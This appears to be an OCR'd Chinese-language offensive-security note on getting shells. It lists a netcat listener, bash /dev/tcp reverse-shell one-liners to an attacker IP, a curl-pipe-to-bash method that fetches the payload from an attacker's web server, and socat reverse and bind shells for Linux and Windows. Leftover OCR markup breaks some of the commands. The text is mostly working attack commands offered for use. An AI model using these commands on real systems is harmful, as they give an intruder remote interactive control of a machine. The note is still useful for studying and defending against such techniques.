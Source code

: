 
```Bash
#攻击机开启本地监听
nc **-**lvvp **2333**
#目标主动连接攻击机
bash -i >**&** /dev/tcp/47.xxx.xxx.72/2333 **0**>**&1**
或
bash -c "bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1"
*# bash -i >& /dev/tcp/攻击机IP/攻击机端口 0>&1*
```

<span style="color: #E0E1E4">Bash 产生了一个交互环境和一个本地主机主动发起的与攻击机 2333 端口建立的连接（即 TCP 2333 会话连接）相结合，然后在重定向个 TCP 2333 会话连接，最后将用户键盘输入与标准输出相结合再次重定向给一个标准的输出，即得到一个 Bash 反弹环境。</span>

### **Curl 配合 Bash 反弹 shell**

这里操作也很简单，借助了 Linux 中的管道。

首先，在攻击者 vps 的 web 目录里面创建一个 index 文件（index.php 或 index.html），内容如下：


```Bash
bash -i >**&** /dev/tcp/47.xxx.xxx.72/2333 <span style="color: #D4C1F3">**0**</span>>**&**<span style="color: #D4C1F3">**1**</span>
```

并开启 2333 端口的监听。

然后再目标机上执行如下，即可反弹 shell：


```Bash
curl <span style="color: #D4C1F3">**47**</span>.xxx.xxx.72**|**bash
```



## `Socat`

* 比`netcat shell`更稳定
* 语法更难；Linux 上默认不安装
### 用法

#### 1.获取反向 shell


```Bash
socat TCP:<span style="color: #C7D5F6"><LOCAL-IP>:<LOCAL-PORT></span> EXEC:powershell.exe,pipes  #在windows上连接
#pips选项用于强制powershell或cmd.exe使用unix风格的标准输入输出
socat TCP:<span style="color: #C7D5F6"><LOCAL-IP>:<LOCAL-PORT></span> EXEC:"bash -li"    #在Linux上连接 
```

#### 2.获取绑定 shell


```Bash
socat TCP-L:<span style="color: #C7D5F6"><PORT></span> EXEC:"bash -li" #在Linux上连接
socat TCP-L:<span style="color: #C7D5F6"><PORT></span> EXEC:powershell.exe,pipes #在windows上连接
```
